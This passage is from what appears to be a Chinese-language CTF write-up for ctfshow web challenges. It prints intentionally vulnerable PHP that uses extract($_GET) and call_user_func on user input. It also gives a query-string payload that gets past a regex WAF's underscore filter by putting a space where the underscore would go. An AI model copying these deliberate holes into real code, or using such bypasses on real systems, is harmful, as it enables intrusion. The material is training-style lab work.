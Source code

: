 ```
<?php

error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];

function waf($url){
    if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
        return true;
    }else{
        return false;
    }
}

if(waf($url)){
    die("嗯哼？");
}else{
    extract($_GET);
}

if($ctf_show==='ilove36d'){
    echo $flag;
} 
```

过滤了`_`，绕过方式还是同web123

payload:

```
?ctf show=ilove36d 
```

## web128

```
<?php

error_reporting(0);
include("flag.php");
highlight_file(__FILE__);

$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}

function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
} 
```
